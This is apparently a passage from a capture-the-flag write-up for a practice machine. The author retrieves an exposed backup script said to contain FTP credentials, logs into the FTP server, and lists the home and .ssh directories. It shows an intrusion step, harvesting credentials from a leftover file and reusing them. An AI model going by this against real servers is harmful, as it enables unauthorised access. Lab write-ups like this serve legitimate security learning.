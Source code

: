 ```bash
Requests/sec.: 0
```

I loaded http://team.thm/scripts/script.old in my browser and got the file with the password in. 

```bash
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " ThePassword
...
mget -R *
quit

```

## FTP Server
We now have the credentials to connect to the FTP server. Let's see what's in it.

```bash
ftp target
Connected to target.
220 (vsFTPd 3.0.3)
Name (target:ehogue): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    5 65534    65534        4096 Jan 15 20:25 .
drwxr-xr-x    5 65534    65534        4096 Jan 15 20:25 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
drwxrwxr-x    3 1002     1002         4096 Jan 15 20:22 .local
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
drwx------    2 1002     1002         4096 Jan 15 20:24 .ssh
drwxrwxr-x    2 65534    65534        4096 Jan 15 20:25 workshare
226 Directory send OK.

ftp> cd .ssh
250 Directory successfully changed.

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1002     1002         4096 Jan 15 20:24 .
drwxr-xr-x    5 65534    65534        4096 Jan 15 20:25 ..
-rw-r--r--    1 1002     1002          222 Jan 15 20:24 known_hosts
226 Directory send OK.
```
